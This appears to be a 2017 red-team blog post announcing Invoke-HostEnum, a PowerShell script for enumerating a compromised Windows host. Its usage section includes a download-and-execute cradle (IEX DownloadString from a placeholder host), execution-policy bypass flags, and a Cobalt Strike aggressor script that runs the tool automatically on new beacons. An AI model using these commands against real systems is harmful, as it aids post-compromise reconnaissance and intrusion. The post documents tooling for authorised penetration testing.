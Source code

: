 # HostEnum - A PowerShell Host Situational Awareness Tool

**Andrew Chiles | May 2, 2017 | Tweet This Post: [:fa-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/2017/05/blogs/invoke_hostenum/&text=Invoke-HostEnum)**

## Overview

During a Red Team engagement, performing detailed Situational Awareness (SA) or enumeration on initial and subsequent host compromises is vital. Every good pen-tester or red teamer has their list of go-to scripts, commands, or "pasties" to run once initial shell access is achieved. The goal is to quickly learn as much about your environment as possible; including defenses, system configuration, interesting files, and opportunities for persistence and lateral movement. Moreover, when working in large and/or distributed teams, a common tool-base and procedure set is crucial to ensure that necessary enumeration is accomplished no matter who's behind the keyboard.

The first shell is often achieved on a host running the Microsoft Windows Operating System after a phishing/social-engineering attack or Web Application exploit. This makes PowerShell an excellent choice for automating post-exploitation and SA tasks. **Invoke-HostEnum** is a PowerShell 2.0 compatible enumeration script intended to be executed through a remote access capability such as Cobalt Strike's Beacon, Empire, or even a web-shell. All output is pre-formatted into Tables or Lists and converted to a string before returning results for this reason. Earlier internal versions of the script contained many more privilege escalation checks, but the continued development and robustness of [PowerUp][1] made these mostly redundant.

There are several good examples of PowerShell host enumeration tools including[ HostRecon][2] by Beau Bullock and [Invoke-WinEnum][3] in PowerShell Empire. Invoke-HostEnum borrows functions from these and other modules annotated throughout its source.  There was a similarly named Invoke-HostEnum function in PowerView that was [removed][4] in 2015, but this is not a resurrected version.

I've started to remove many (but not all) binary dependencies to avoid triggering potential alerts from running numerous common built-in Windows command-line enumeration tools in rapid succession. However, there is always room for improvement and contributions and suggestions to the Github repository are highly encouraged!

## Features

The following is a comprehensive list of the items currently enumerated by Invoke-HostEnum. Some enumerations functions require local administrator rights for best results and will result in no or limited results when run under a limited user context.

* OS Details, Hostname, Uptime, Installdate, Architecture
* Installed Applications and Patches
* Network Adapter Configuration, Network Shares, Connections, Routing Table, DNS Cache
* Running Processes (with full command line) and Installed Services
* Interesting Registry Entries (SNMP strings, Saved Putty Sessions)
* Local Users, Groups, and Administrators
* Personal Security Product Status
* Interesting file locations (Current User Profile) and keyword searches via file indexing
* Recycle Bin Contents
* Interesting Windows Logs (Get-ComputerDetails – Logon Events, AppLocker logs, PowerShell logs, RDP servers)
* Basic Domain enumeration (users, groups, trusts, domain controllers, account policy, SPNs)-Explicit Credential Logons (Event ID 4648)

As usual, you can get the latest version of tools on our GitHub repository.

## Usage

### Command Line

Execute locally hosted script with console output
    
```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Domain
``` 

Download and execute remotely hosted script

```
powershell -nop -c IEX (New-Object Net.Webclient).downloadstring("""http://yourdomain/Invoke-HostEnum.ps1""");Invoke-HostEnum -Local
```

Execute locally hosted script with HTML report output. If you want the mostly easily readable format and don't mind writing a file to disk, consider using the "-Path" option to specify a directory for an HTML formatted report
    
```    
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Path c:programdata
```
![Invoke-HostEnum HTML Report][5] **Invoke-HostEnum HTML Report**

### Cobalt Strike

Import script and execute interactively in a Beacon console
    
```
powershell-import ./scripts/Invoke-HostEnum.ps1
powershell Invoke-HostEnum -Local -Domain
```

Automatic execution – Use [aggressor][6] script to fire upon new beacon arrivals. This is ideal to implement on your initial interactive/phishing callback Team Server where you want to gather information in the target environment and may be away from the console. Consider combining with a Slack notification script as described in our previous post [Slack Notifications for Cobalt Strike ][7]or as thoroughly explained by Jeff Dimmock in [Slack Bots for Trolls and Work][8]. **Note:** This code would require slight modification to work for DNS beacons if desired.
    
```bash    
on beacon_initial {
    enumerate($1);
}

sub enumerate {
    if ( -exists script_resource("scripts/Invoke-HostEnum.ps1")) {
    binput($1,"[*] Executing Invoke-HostEnum");
    bpowershell_import($1, script_resource("scripts/Invoke-HostEnum.ps1"));
    bpowershell($1, "Invoke-HostEnum -Local -Domain");
    }
    else {
    berror($1, "Invoke-HostEnum.ps1 does not exist");
    }
}
```    

![][9] **Invoke-HostEnum Execution in Cobalt Strike**

### **PowerShell Empire**

I've also created a basic post-exploitation module for Empire (hostenum.py) that makes executing on an Empire agent extremely easy.

Copy scripts to the appropriate Empire path
    
```
cp Invoke-HostEnum.ps1 /data/module_source/situational_awareness/host
cp hostenum.py /lib/modules/situational_awareness/host
```

Start Empire
    
```    
# ./empire
```

Interact with agent
    
```    
(Empire) > interact 
```

Execute the module
    
```    
(Empire: BX1HBE3MZAWGF1BB) > usemodule situational_awareness/host/hostenum
(Empire: situational_awareness/host/hostenum) > run
```    

![][10] **Invoke-HostEnum Empire Module**


* * *

## Credits

Several functions are inspired or pulled directly from the following projects and are referenced in the code where applicable. Any omissions are not intentional. Thanks to the following authors and projects for the great work!

* * *

## Want to learn more about Red Teaming?

![Red Team Operation and Threat Emulation][11]

Check out the new SANS Red Team course written by MINIS' own Joe Vest and James Tubberville

SEC 564 Red Team Operation and Threat Emulation 

[1]: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
[2]: https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1
[3]: https://github.com/EmpireProject/Empire/tree/master/data/module_source/situational_awareness/host
[4]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[5]: /threatexpress/img/hostenum_console_html.png
[6]: https://www.cobaltstrike.com/aggressor-script/index.html
[7]: http://threatexpress.com/2016/12/slack-notifications-for-cobalt-strike/
[8]: https://bluescreenofjeff.com/2017-04-11-slack-bots-for-trolls-and-work/
[9]: /threatexpress/img/hostenum_cs.gif
[10]: /threatexpress/img/hostenum_empire1.png
[11]: /threatexpress/img/sanslogo.png

  